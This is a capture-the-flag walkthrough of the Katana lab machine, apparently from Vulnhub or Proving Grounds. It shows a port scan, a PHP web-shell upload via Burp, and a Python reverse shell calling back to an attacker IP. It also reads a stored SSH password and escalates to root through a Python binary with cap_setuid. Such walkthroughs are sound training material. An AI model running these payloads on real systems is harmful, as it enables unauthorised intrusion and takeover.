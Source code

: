 # Katana

Let’s find the IP Address first >>

![Untitled](/Vulnhub-Files/img/Katana/Untitled.png)

```bash
IP : 192.168.249.140
```

## Port Scan Results ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/katana]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 192.168.249.140
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-23 13:09 EDT
Nmap scan report for 192.168.249.140
Host is up (0.00099s latency).
Not shown: 65527 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 894f3a5401f8dcb66ee078fc60a6de35 (RSA)
|   256 ddaccc4e43816be32df312a13e4ba322 (ECDSA)
|_  256 cce625c0c6119f88f6c4261edefae98b (ED25519)
80/tcp   open  http        Apache httpd 2.4.38 ((Debian))
|_http-title: Katana X
|_http-server-header: Apache/2.4.38 (Debian)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
7080/tcp open  ssl/http    LiteSpeed httpd
|_http-server-header: LiteSpeed
|_ssl-date: TLS randomness does not represent time
|_http-title: Katana X
| ssl-cert: Subject: commonName=katana/organizationName=webadmin/countryName=US
| Not valid before: 2020-05-11T13:57:36
|_Not valid after:  2022-05-11T13:57:36
| tls-alpn: 
|   h2
|   spdy/3
|   spdy/2
|_  http/1.1
8088/tcp open  http        LiteSpeed httpd
|_http-server-header: LiteSpeed
|_http-title: Katana X
8715/tcp open  http        nginx 1.14.2
|_http-server-header: nginx/1.14.2
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Restricted Content
|_http-title: 401 Authorization Required
MAC Address: 00:0C:29:2A:70:1F (VMware)
Service Info: Host: KATANA; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/Katana/Untitled%201.png)

![Untitled](/Vulnhub-Files/img/Katana/Untitled%202.png)

Now lets try sqlmap and lets dump the whole data →

![Untitled](/Vulnhub-Files/img/Katana/Untitled%203.png)

Now after login I have to alter the image file to get the local privileges →

![Untitled](/Vulnhub-Files/img/Katana/Untitled%204.png)

Now let’s upload an image and capture the request in burpsuite →

![Untitled](/Vulnhub-Files/img/Katana/Untitled%205.png)

Now after forwording the request I successfully uploaded the image file as php file →

![Untitled](/Vulnhub-Files/img/Katana/Untitled%206.png)

Now through uploading I can’t able to execute it so ,

Lets try to use other ports and in port 8080 I got file upload so lets exploit it and Lets access that file from uploading in port 8715 as the file was not loading on that same port so →

![Untitled](/Vulnhub-Files/img/Katana/Untitled%207.png)

Now lets use it →

`rshell.php` ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/katana]
└─$ cat rshell.php
<?php system($_GET['cmd']);?>
```

![Untitled](/Vulnhub-Files/img/Katana/Untitled%208.png)

Now lets try reverse shell python command →

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.249.128",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

In response to that I got this →

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/katana]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.249.128] from (UNKNOWN) [192.168.249.140] 47714
bash: cannot set terminal process group (375): Inappropriate ioctl for device                                                                    
bash: no job control in this shell                                                                                                               
www-data@katana:/opt/manager/html$ whoami                                                                                                        
whoami                                                                                                                                           
www-data                                                                                                                                         
www-data@katana:/opt/manager/html$ id                                                                                                            
id                                                                                                                                               
uid=33(www-data) gid=33(www-data) groups=33(www-data)                                                                                            
www-data@katana:/opt/manager/html$ uname -an                                                                                                     
uname -an                                                                                                                                        
Linux katana 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2 (2020-04-29) x86_64 GNU/Linux                                                               
www-data@katana:/opt/manager/html$
```

And I got some credentials too →

```bash
www-data@katana:/home/katana$ cat .ssh_passwd
cat .ssh_passwd
katana@katana12345
www-data@katana:/home/katana$
```

Now after changing the user to katana I checked the capabilities and I found this →

```bash
katana@katana:~$ getcap -r / 2>/dev/null                                                                                                         
getcap -r / 2>/dev/null                                                                                                                          
/usr/bin/ping = cap_net_raw+ep                                                                                                                   
/usr/bin/python2.7 = cap_setuid+ep                                                                                                               
katana@katana:~$
```

Now lets use the python os command to get the root →

```bash
katana@katana:~$ /usr/bin/python2.7 -c 'import os; os.setuid(0); os.system("/bin/bash")'; 
< 'import os; os.setuid(0); os.system("/bin/bash")';
root@katana:~# whoami
whoami
root
root@katana:~# id
id
uid=0(root) gid=1000(katana) groups=1000(katana),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
root@katana:~# cd ~
cd ~
root@katana:~# 
root@katana:~# cd /root
cd /root
root@katana:/root# ls -al
ls -al
total 44
drwx------  4 root root 4096 May 11  2020 .
drwxr-xr-x 18 root root 4096 May 11  2020 ..
-rw-------  1 root root  563 May 11  2020 .bash_history
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
drwx------  3 root root 4096 May 11  2020 .gnupg
drwxr-xr-x  3 root root 4096 May 11  2020 .local
-rw-------  1 root root  155 May 11  2020 .mysql_history
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   22 May 11  2020 root.txt
-rw-r--r--  1 root root   66 May 11  2020 .selected_editor
-rw-r--r--  1 root root  209 May 11  2020 .wget-hsts
root@katana:/root# cat root.txt
cat root.txt
{R00t_key_Katana_91!}
root@katana:/root#
```